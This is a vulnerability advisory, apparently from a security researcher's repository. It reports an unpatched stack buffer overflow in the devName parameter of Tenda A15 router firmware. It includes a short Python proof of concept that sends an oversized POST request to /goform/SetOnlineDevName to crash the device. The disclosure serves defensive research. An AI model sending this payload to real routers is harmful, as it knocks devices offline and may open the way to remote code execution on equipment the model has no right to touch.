 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "devName" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the formSetDeviceName function, the devName parameter is obtained via websGetVar and passed to the first parameter of set_device_name

![1703731523270](image/SetOnlineDevName.devname.zh-cn/1703731523270.png)

In the set_device_name function, the dev_name variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform DOS attacks and RCE attacks.

![1703731669271](image/SetOnlineDevName.devname.zh-cn/1703731669271.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x1000
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
